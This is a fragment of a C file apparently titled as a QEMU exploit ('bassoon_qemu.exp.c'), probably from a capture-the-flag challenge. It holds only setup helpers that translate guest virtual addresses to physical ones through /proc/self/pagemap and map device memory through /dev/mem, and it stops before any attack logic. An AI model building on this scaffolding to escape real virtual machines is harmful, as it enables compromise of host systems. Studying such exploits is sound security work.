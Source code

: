 # Exp

## bassoon_qemu.exp.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <assert.h>

#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>
#include <sys/ioctl.h>

#define PAGE_SHIFT      12
#define PAGE_SIZE       (1 << PAGE_SHIFT)
#define PFN_PRESENT     (1ull << 63)
#define PFN_PFN         ((1ull << 55) - 1)
#define PAGE_OFF(addr)  (addr & ((1 << PAGE_SHIFT) - 1))

uint64_t gva_to_gfn(void *addr) {
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }
    uint64_t pme, gfn;
    size_t offset;
    offset = ((uintptr_t)addr >> 9) & ~7;
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    close(fd);
    return gfn;
}

uint64_t gva_to_gpa(void *addr) {
    uint64_t gfn = gva_to_gfn(addr);
    assert(gfn != -1);
    return (gfn << PAGE_SHIFT) | PAGE_OFF((uint64_t)addr);
}

void *mmio_init(void *fixed_va, off_t mmio_base, size_t mmio_size) {
    void *res = NULL;

    int mem_fd = open("/dev/mem", O_RDWR | O_SYNC);
    if (mem_fd == -1) {
        perror("[-] failed to open mmio.");
        exit(EXIT_FAILURE);
    }

    res = mmap(fixed_va, mmio_size, PROT_READ | PROT_WRITE, MAP_SHARED, mem_fd, mmio_base);
```